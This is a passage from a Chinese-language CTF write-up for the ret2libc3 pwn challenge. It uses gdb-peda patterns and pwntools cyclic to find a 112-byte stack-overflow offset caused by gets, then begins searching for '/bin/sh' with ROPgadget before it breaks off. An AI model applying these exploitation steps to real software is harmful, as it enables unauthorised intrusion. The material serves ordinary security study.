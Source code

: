 存在gets函数，有栈溢出的可能，计算返回地址到可控输入的偏移量（这里使用另一种方法）

```
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

gdb-peda$ r
Starting program: /home/dililearngent/Desktop/pwn1/ret2libc3 
No surprise anymore, system disappeard QQ.
Can you find it !?AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
//拿到ebp的值为EBP: 0x6941414d ('MAAi')

gdb-peda$ pattern offset MAAi
MAAi found at offset: 108
//故偏移量为108+4=112
```

或者：

```
dililearngent@dililearngent-virtual-machine:~/Desktop/pwn1$ cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

dililearngent@dililearngent-virtual-machine:~/Desktop/pwn1$ gdb ret2libc3 
gdb-peda$ r
Starting program: /home/dililearngent/Desktop/pwn1/ret2libc3 
No surprise anymore, system disappeard QQ.
Can you find it !?aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
//执行结果后半部分
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x62616164 in ?? ()    //出现溢出的位置

gdb-peda$ q
dililearngent@dililearngent-virtual-machine:~/Desktop/pwn1$ cyclic -l 0x62616164
112
```

3、找system地址及/bin/sh地址

```
$info functions         //没有system地址
dililearngent@dililearngent-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2libc3 --string "/bin/sh"
Strings information
============================================================
```
